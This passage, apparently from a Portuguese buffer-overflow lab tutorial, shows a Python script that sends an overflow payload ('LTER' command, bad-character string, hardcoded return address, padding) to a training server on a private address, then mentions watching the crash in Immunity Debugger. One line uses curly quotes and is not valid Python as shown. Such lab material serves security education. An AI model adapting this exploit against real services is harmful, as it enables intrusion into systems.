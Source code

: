 xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# payload
payload = b"LTER /."
payload += badchars
payload += b”B” * 4
#payload += b"A" * (2005 - len(badchars))
payload += b"\xd3\x11\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```

Monitorando com Immunity:

![Enumaração do comando.](/std/winbof/winbof-86.png)

